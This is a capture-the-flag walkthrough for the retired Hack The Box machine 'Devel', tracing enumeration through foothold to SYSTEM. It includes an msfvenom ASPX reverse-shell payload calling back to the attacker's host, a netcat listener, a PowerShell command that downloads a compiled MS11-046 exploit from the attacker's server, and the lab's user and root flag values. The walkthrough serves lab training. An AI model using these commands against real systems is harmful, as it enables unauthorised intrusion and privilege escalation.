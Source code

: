 ```yaml
---
layout: default
title: DEVEL
description: by Hack The Box
---
```


### This is quick walkthrough on how I've managed to root the retired devel machine from HTB

## Enumeration

1. Scan with nmap

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.5 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 20:03 EST
   Nmap scan report for 10.10.10.5
   Host is up (0.034s latency).
   Not shown: 998 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     Microsoft ftpd
   | ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | 03-18-17  01:06AM       <DIR>          aspnet_client
   | 03-17-17  04:37PM                  689 iisstart.htm
   |_03-17-17  04:37PM               184946 welcome.png
   | ftp-syst:
   |_  SYST: Windows_NT
   80/tcp open  http    Microsoft IIS httpd 7.5
   |_http-server-header: Microsoft-IIS/7.5
   |_http-title: IIS7
   | http-methods:
   |_  Potentially risky methods: TRACE
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
   ```

2. FTP - looks like we can login with user anonymous
   ```
   ftp 10.10.10.5
   ```
3. Let's try to upload a file

   ```
   (in Kali)
   ┌──(schoon3r㉿nexer)-[~/Engagements/HTB]
   └─$ echo "Hello World" > text.txt

   (in FTP)
   tp> ls
   200 PORT command successful.
   125 Data connection already open; Transfer starting.
   03-18-17  01:06AM       <DIR>          aspnet_client
   03-17-17  04:37PM                  689 iisstart.htm
   11-25-21  03:25AM                   12 text.txt
   03-17-17  04:37PM               184946 welcome.png
   226 Transfer complete.
   ```

4. Cool. Let's look at the other service that is open.
5. Port 80. Let's try it on the browser. >>> Looks like an IIS default page.
6. Let's try and go to the pages that was inside the ftp directory
   - http://10.10.10.5/iisstart.htm
   - http://10.10.10.5/text.txt

## Starting a FootHold

7. So from here... we want to get a foothold on the server. We know we can upload a file and we know we can view the file from the browser. Let's turn to MSFVENOM
   ```
   msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=4444 -o reverse-shell.aspx
   ```
   - -p is the location of our payload
   - -f is the format of the payload. Its ASPX because of the webserver
8. That will save a file reverse-shell.aspx to your directory. What will this payload do??? It creates a reverse shell to our netcat listener.
9. Let's now upload this file using our FTP anonymous login
10. Now let's start a netcat listener
    ```
    nc -nvlp 4444
    ```
11. Let us now go back to the browser to start the reverse shell
    ```
    http://10.10.10.5/reverse-shell.aspx
    ```
12. You will see that you now got a reverse shell in your netcat listener window
13. Lets traverse the directory.
14. You will find out that you do not have permission to view Babis and Administrator directories. This means that we need privesc.

## Enumerating for PrivEsc

15. let's type in:

    ```
    c:\Users>cd Classic .NET AppPool
    cd Classic .NET AppPool
    Access is denied.

    c:\Users>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          25/11/2021, 3:04:29 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                            [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.430 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.514 MB
    Virtual Memory: In Use:    627 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                            [01]: vmxnet3 Ethernet Adapter
                                    Connection Name: Local Area Connection 3
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.5
                                    [02]: fe80::58c0:f1cf:abc6:bb9e
                                    [03]: dead:beef::23c
    ```

16. A few interesting thing here is that

    - Its a Windows 7 Build 7600
    - Hotfix: N/A
    - It is based on the X86 architecture

17. While this is a very old pc, seems funny that there are no patches on the machine. Let's google
    ```
    Windows 7 build 7600 priv esc exploit
    ```
18. The first 2 results are from Exploit-DB. Let's check out the Build 7601(x86) - Local Priv Esc... which is exactly what we want.

## PrivEsc

19. Download the exploit and read the instructions on how to compile the exploit in C
20. Install mingw-w64
    ```
    sudo apt-get install mingw-w64
    ```
21. Compile the C program you've downloaded
    ```
    i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
    ```
22. Now we need to copy this file... into the C:\ drive of the target machine. Let's turn on a simple http server and copy the file
    ```
    python3 -m http.server 7331
    ```
23. Now from the netcat listener window... lets copy the file
    ```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:7331/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
    ```
24. Let's verify if the file is copied? Great! Let's run it ~
    ```
    c:\Users\Public\Downloads>40564
    40564
    ```
25. Looks good! Let's try a few command to be certain we have root priv
    ```
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    ```
26. Now we can get both user and root flags

    ```
    c:\Users\babis\Desktop>type user.txt.txt
    type user.txt.txt
    9ecdd6a3aedf24b41562fea70f4cb3e8

    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    e621a0b5041708797c4fc4728bc72b4b
    ```

# Reference

1. https://www.exploit-db.com/exploits/40564
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

# Summary

1. We enumerated the machine using nmap and found ports 21 and 80 open
2. We found that we can upload file using the anonymous login and we can execute those file within the webserver on port 80
3. We tried to get a foothold of the machine using an MSFVENOM payload with an aspx format.
4. Once we got the reverse shell, we immediately found that we dont have a privileged user.
5. To privesc... we enumerated the machine again and found that it is an unpatched Windows 7 machine with build 7600 (x86)
6. Googling for exploit we found a link to an exploit in exploit-db
7. Installed mingw to compile the C code into an executable program and thankfully the command to complile is already provided in the link.
8. We then started a simple http server so can transfer the file into the machine and downloaded the file using a powershell script.
9. After this, we found that we now have root priv.


[back](./)
